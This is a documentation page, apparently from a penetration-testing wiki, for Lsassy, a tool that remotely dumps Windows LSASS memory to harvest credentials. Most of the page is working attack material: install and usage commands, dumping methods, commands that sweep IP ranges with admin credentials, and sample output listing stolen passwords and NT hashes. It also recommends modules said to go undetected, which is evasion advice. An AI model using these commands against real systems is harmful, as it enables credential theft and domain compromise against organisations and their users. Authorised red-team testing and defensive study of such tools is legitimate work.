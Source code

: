 ```yaml
---
title : "Lsassy"
# pre : ' '
description : "Python library to remotely extract credentials on a set of hosts."
date : 2020-05-15T09:32:35+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Lsassy

Remote LSASS dumper - Python library to remotely extract credentials on a set of hosts.

### Installation

```plain
python3 -m pip install lsassy
```

### Usage

```plain
usage: lsassy [-h] [-m METHOD] [--dumpname DUMPNAME] [--procdump PROCDUMP] [--dumpert DUMPERT] [--threads THREADS] [--timeout TIMEOUT]
              [-u USERNAME] [-p PASSWORD] [-d DOMAIN] [-H HASHES] [-k] [-dc-ip ip address] [-aesKey hex key] [-o OUTFILE]
              [-f {pretty,json,grep,none}] [-r] [-v] [-q] [-V]
              [target [target ...]]
```

### Flags

```plain
lsassy v2.1.3 - Remote lsass dump reader

positional arguments:
  target                The target IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of targets

optional arguments:
  -h, --help            show this help message and exit
  -r, --raw             No basic result filtering (Display host credentials, duplicates and empty pass)
  -v                    Verbosity level (-v or -vv)
  -q, --quiet           Quiet mode, only display credentials
  -V, --version         show program's version number and exit

dump:
  -m METHOD, --method METHOD
                        Dumping method
                            0: Try all methods (dll then procdump then dumpert) to dump lsass, stop on success (Requires -p if dll method fails, -u if procdump method fails)
                            1: comsvcs.dll method, stop on success (default)
                            2: Procdump method, stop on success (Requires -p)
                            3: comsvcs.dll + Powershell method, stop on success
                            4: comsvcs.dll + cmd.exe method
                            5: (unsafe) dumpert method, stop on success (Requires -u)
  --dumpname DUMPNAME   Name given to lsass dump (Default: Random)
  --procdump PROCDUMP   Procdump path
  --dumpert DUMPERT     dumpert path
  --threads THREADS     Threads number
  --timeout TIMEOUT     Timeout before considering lsass was not dumped successfully

authentication:
  -u USERNAME, --username USERNAME
                        Username
  -p PASSWORD, --password PASSWORD
                        Plaintext password
  -d DOMAIN, --domain DOMAIN
                        Domain name
  -H HASHES, --hashes HASHES
                        [LM:]NT hash
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

output:
  -o OUTFILE, --outfile OUTFILE
                        Output credentials to file
  -f {pretty,json,grep,none}, --format {pretty,json,grep,none}
                        Output format (Default pretty)

example:
    lsassy -d adsec.local -u pixis -p p4ssw0rd 192.168.1.0/24
```

### Examples

#### Dump lsass from single target

```plain
$ lsassy -d <domain> -u '<domain-admin>or<local-admin>' -p '<password>' <target>

[+] [10.10.10.10] offsec.nl\john.do   Welkom1234
```

#### Dump lsass from range of IP's

```plain
$ lsassy -d <domain> -u '<domain-admin>or<local-admin>' -p '<password>' 10.10.10.10-12

[+] [10.10.10.10] offsec.nl\john.do   Welkom1234
[+] [10.10.10.11] offsec.nl\jane.do   Welk0m4
[+] [10.10.10.12] offsec.nl\el.prof   NietWelkom
```

#### Dump lsass with module

Modules that can be used without prerequisites and from experience are not generally detected:

* comsvcs_stealth
* procdump_embedded
* mirrordump_embedded

##### comsvcs_stealth

```plain
$ lsassy -d offsec.nl -u john.do -p 'Welkom1234' 10.10.10.10 -m comsvcs_stealth
[+] 10.10.10.10 Authentication successful
[+] 10.10.10.10 Comsvcs.dll successfuly copied
[+] 10.10.10.10 Lsass dumped in C:\Windows\Temp\R0fDNwVOq.ttf (215340545 Bytes)
[+] 10.10.10.10 Lsass dump deleted
[+] 10.10.10.10 OFFSEC\adm_johndo           [NT] 80a2cc87940725[...SNIP...]562de29 | [SHA1] c58e8057[...SNIP...]5df5c7d8a10afe5d
[+] 10.10.10.10 OFFSEC\PDC01$    [NT] cb381530[...SNIP...]45ee76 | [SHA1] e16078f9f6939f0[...SNIP...]93156b55db
[+] 10.10.10.10 offsec.nl\PDC01$  [PWD] d52be466975b3728c2acc13d9a7422a7b10[...SNIP...]e0a7795122cb2ee55537
[+] 10.10.10.10 OFFSEC\PDC01$    [NT] 9e333[...SNIP...]9b27607fc | [SHA1] 3b8152bd[...SNIP...]2255e3ea72c
[+] 10.10.10.10 offsec.nl\PDC01$  [PWD] c1e3cebd8f9628c752b34ca1290d8771cb159fedb2298219f7[...SNIP...]28bc2fe4ddc56b0e98a019bb072
```

##### Dumpert

{{%attachments title="Compiled binaries" fa_icon_class="far fa-file" pattern=".*(exe|dll)"/%}}

### URL list

* [GitHub.com - lsassy](https://github.com/Hackndo/lsassy)
* [Github.com - Dumpert](https://github.com/outflanknl/Dumpert)
